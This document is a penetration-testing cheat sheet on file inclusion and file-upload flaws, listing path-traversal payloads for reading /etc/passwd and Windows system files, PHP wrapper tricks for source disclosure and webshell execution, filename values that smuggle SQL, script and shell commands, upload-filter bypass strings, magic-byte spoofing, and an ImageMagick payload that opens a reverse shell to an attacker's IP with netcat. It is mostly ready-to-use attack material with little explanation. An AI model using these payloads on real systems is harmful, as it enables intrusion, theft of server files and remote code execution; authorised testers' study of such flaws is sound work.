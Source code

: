 # File Vulnerabilities

## LFI

local file inclusion happens when it is possible to access files stored on the target's system by passing a relative path to a parameter of a request. The number of "up one level instructions" is irrelevant because once we reach the root level, the additional "go up" instructions will be ignored.

See [LFI List](file-upload/lfi-list.md) for a list of possible target files for tests

### Payloads

```
#Linux
../../../../../../../../../../../../etc/passwd
#Windows
..\..\..\..\..\..\..\..\..\..\..\..\Windows\system.ini
..\..\..\..\..\..\..\..\..\..\..\..\boot.ini
```

### Importing with file modifiers

Disclose PHP file source code

<pre><code><strong>&#x3C;url>?&#x3C;arg>=php://filter/convert.base64-encode/resource=&#x3C;php file>.php
</strong></code></pre>

Execute webshell from a ZIP file. The webshell extension ca be omitted

```
<url>?<arg>=zip://<path to zip file>%23<webshell>?<args>
```

## RFI

Remote file inclusion happens when an attacker is able to make a web server include and execute files hosted on a different server controlled by the attacker. For instance by making a parameter point to an url of a file such as a reverse shell written in php it is possible to make the server follow the url and execute the shell

See [PHP shells](file-upload/php-shells.md) for shells to be used in an attack. Keep in mind that these files MUST be stored as .txt files instead of their executable format (.php, .jsp, .asp). If you don't do this the malicious code will be executed on your local server instead of the remote one

#### Payloads

```
www.google.com    #expect to see html code as result
<your url>:<port> #start a listener on the port and see if you receive an HTTP request
```

## File upload functionality

### Filename payloads

```
../../../tmp/evil.png                 #test for LFI
sleep(10)-- -.jpg                     #test for SQLi
<svg onload=alert(document.domain)>   #test for stored XSS
; sleep 10;                           #test for RCE
```

### Evade file restrictions

Changing the content type header when trying to upload reverse shells can bypass simple files detection systems.

These strings are effective in evading file upload checks only if the server does not check the actual file signature but checks only the extension.

```php
file.png.php
file.png.Php5
file.php%20
file.php%0a
file.php%00
file.php%0d%0a
file.php/
file.php.\
file.
file.php....
file.pHp5....
file.png.php
file.png.pHp5
file.php%00.png
file.php\x00.png
file.php%0a.png
file.php%0d%0a.png
flile.phpJunk123png
file.png.jpg.php
file.php%00.png%00.jpg
```

### Magic bytes

To bypass file controls based on MIME type and file signature insert the following bytes sequences at the beginning of the file to change its type and edit file extension accordingly. Once the file is stored on the server you will have to find a way to edit it back in order to restore its origina behavior when opened

```php
python -c "print '<signature>'" > <file>
#hex signature example: \x4D\x5A
```

| File type                       | Mnemonic            | Signature                                    |
| ------------------------------- | ------------------- | -------------------------------------------- |
| DOS executable                  | "MZ"&#xD;           | 0x4D 0x5A&#xD;                               |
| PE32 executable                 | "MZ"...."PE.."&#xD; | 0x4D 0x5A ... 0x50 0x45 0x00 0x00&#xD;       |
| Mach-O Executable (32 bit)      | "FEEDFACE"&#xD;     | 0xFE 0xED 0xFA 0xCE&#xD;                     |
| Mach-O Executable (64 bit)&#xD; | "FEEDFACF"&#xD;     | 0xFE 0xED 0xFA 0xCF&#xD;                     |
| ELF Executable&#xD;             | ".ELF"&#xD;         | 0x7F 0x45 0x4C 0x46&#xD;                     |
| Zip Archive&#xD;                | "PK.."&#xD;         | 0x50 0x4B 0x03 0x04&#xD;                     |
| Rar Archive&#xD;                | "Rar!...."&#xD;     | 0x52 0x61 0x72 0x21 0x1A 0x07 0x01 0x00&#xD; |
| Ogg Container&#xD;              | "OggS"&#xD;         | 0x4F 0x67 0x67 0x53&#xD;                     |
| Matroska/EBML Container&#xD;    | N/A                 | 0x45 0x1A 0xA3 0xDF&#xD;                     |
| PNG Image&#xD;                  | ".PNG...."&#xD;     | 0x89 0x50 0x4E 0x47 0x0D 0x0A 0x1A 0x0A&#xD; |
| BMP Image&#xD;                  | "BM"&#xD;           | 0x42 0x4D&#xD;                               |
| GIF Image&#xD;                  | "GIF87a"&#xD;       | 0x47 0x49 0x46 0x38 0x37 0x61&#xD;           |
| GIF Image&#xD;                  | "GIF89a"&#xD;       | 0x47 0x49 0x46 0x38 0x39 0x61                |

## ImageTrick vulnerability

Save this code snippet in a text file and upload it to receive a reverse shell

```
push graphic-context
viewbox 0 0 640 480
fill 'url(https://127.0.0.1/image.jpg"|nc -e /bin/sh <IP> "<PORT>)'
pop graphic-context
```


